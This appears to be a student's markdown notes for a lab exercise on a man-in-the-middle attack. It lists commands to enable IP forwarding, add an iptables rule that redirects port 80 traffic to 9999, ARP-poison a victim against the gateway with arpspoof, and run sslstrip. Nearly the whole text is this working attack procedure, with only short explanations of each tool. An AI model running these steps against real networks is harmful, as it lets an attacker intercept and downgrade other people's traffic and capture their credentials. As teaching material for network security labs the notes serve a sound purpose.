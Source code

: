 change kernel configuration and iptables to forward traffic from one target to another (victim <-> gateway) -> arp poisoning -> ssl stripping


enable IP forwarding by kernel:  
`sudo sysctl net.ipv4.ip_forward=1`   
`sysctl` is a tool for examining and changing kernel parameters at runtime  
OR  
`sudo su` (has to use `su` bcos redirection)  
`echo "1" > /proc/sys/net/ipv4/ip_forward`  

for change persistent after reboot edit `/etc/sysctl.d/30-ipforward.conf`  
e.g.  
```
net.ipv4.ip_forward=1
net.ipv6.conf.default.forwarding=1
net.ipv6.conf.all.forwarding=1
```


Configure iptables:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 9999`  
`sslstrip` will listen on 9999, thus working only on to-be-redirected HTTPs  

`iptables` run as `systemd` service. To start on reboot you have to `enable` it.   
rules to be loaded are located in `/etc/iptables/iptables.rules` for `iptables.service` and in `/etc/iptables/ip6tables.rules` for `ip6tables.service`      
to save rules passed via cli to conf file: `iptables-save -f` `/etc/iptables/iptables.rules`   
if conf file edited - `reload` via `systemctl`   

ARP poisoning like in [zad8](zad8.md)  
OR  
`sudo apt install dsniff` dsniff contains i.a. `arpspoof`  
`sudo arpspoof -i eth0 -t <targetIP> <IP I'm supposed to be (gateway)>`

`sslstrip -l 9999`     
